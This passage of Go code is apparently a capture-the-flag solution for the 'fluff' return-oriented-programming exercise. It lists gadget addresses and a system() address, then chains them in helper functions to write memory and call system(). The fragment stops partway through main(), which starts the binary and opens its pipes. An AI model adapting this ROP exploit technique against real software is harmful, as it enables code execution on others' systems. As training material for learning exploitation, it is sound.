 ```go
// pop r12; pop r13; pop r14; pop r15; ret;
// Location: 0x004008bc
var popR12 = "\xbc\x08\x40\x00" + padding

// xor r11, r11; pop r14; mov edi, 0x601050; ret;
// Location: 0x00400822
var xorR11R11 = "\x22\x08\x40\x00" + padding

// xor r11, r12; pop r12; mov r13d, 0x604060; ret;
// Location: 0x0040082f
var xorR11R12 = "\x2f\x08\x40\x00" + padding

// xchg r11, r10; pop r15; mov r11d, 0x602050; ret;
// Location: 0x00400840
var xchgR11R10 = "\x40\x08\x40\x00" + padding

// mov qword [r10], r11; pop r13; pop r12; xor byte [r10], r12b; ret;
// Location: 0x0040084e
var movPtrR10R11 = "\x4e\x08\x40\x00" + padding

// system()
// Location: 0x004005e0
var system = "\xe0\x05\x40\x00" + padding

func loadR11(bytesToLoad string) (ropChain string) {
        ropChain = popR12
        ropChain += bytesToLoad
        ropChain += padding + padding
        ropChain += padding + padding
        ropChain += padding + padding
        ropChain += xorR11R11
        ropChain += padding + padding
        ropChain += xorR11R12
        ropChain += padding + padding
        return
}

func loadR10(bytesToLoad string) (ropChain string) {
        ropChain = loadR11(bytesToLoad)
        ropChain += xchgR11R10
        ropChain += padding + padding
        return
}

func writeR11Ptr() (ropChain string) {
        ropChain = movPtrR10R11
        ropChain += padding + padding
        ropChain += padding + padding
        return
}

func main() {
        binary := "./fluff"
        cmd := exec.Command(binary)
        stdin, err := cmd.StdinPipe()
        if err != nil {
                log.Fatal(err)
        }
        stdout, err := cmd.StdoutPipe()
        if err != nil {
                log.Fatal(err)
        }
        stderr, err := cmd.StderrPipe()
```